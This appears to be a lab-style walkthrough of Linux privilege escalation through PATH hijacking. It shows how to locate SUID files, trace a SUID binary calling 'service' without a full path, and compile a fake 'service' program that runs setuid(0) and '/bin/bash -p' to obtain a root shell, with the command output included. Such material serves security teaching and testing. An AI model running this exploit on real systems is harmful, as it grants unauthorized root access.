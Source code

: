FINDING VULNERABLE PROGRAMS

The PATH environment variable contains a list of directories where the shell should try to find programs.

If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found.

Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.

If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string.

We can run strings on the executable file to find strings of characters.

We can also use strace to see how the program is executing. Another program called ltrace may also be of use.

Running strings against a file:
```bash
strings /path/to/file
```

Running strace against a command:

```bash
strace -v -f -e execve <command> 2>&1 | grep exec
```

Running e ltrace against a command:

```bash
ltrace <command>
```

1. Find SUID/SGID files on the target:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

-rwsr-sr-x 1 root staff 6883 May 14 2017 /usr/local/bin/suid-env

The suid-env file should execute with root user permissions.

2. Run strings on the SUID file:

```bash
strings /usr/local/bin/suid-env
```

/lib64/ld-linux-x86-64.so.2
service apache2 start

The file could be trying to run the service program without a full path.

3. We can verify this with strace:

```bash
strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service
```

[pid 14395] execve("/bin/sh", ["sh", "-c", "service apache2 start"],

4. Optionally, we can also verify with ltrace:

```bash
ltrace /usr/local/bin/suid-env 2>&1 | grep service
```

system("service apache2 start"

This reveals that the system function is being used to execute the service program.

5. Create a file service.c with the following contents:

==service.c==

---
```bash

int main() {
 setuid(0);

 system("/bin/bash -p");
}
```
---

6. Compile service.c into a file called service:

```bash
gcc -o service service.c
```

7. Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:

```bash
PATH=.:$PATH /usr/local/bin/suid-env
```

```bash
id
```

uid=0(root) gid=0(root) groups=0(root) ...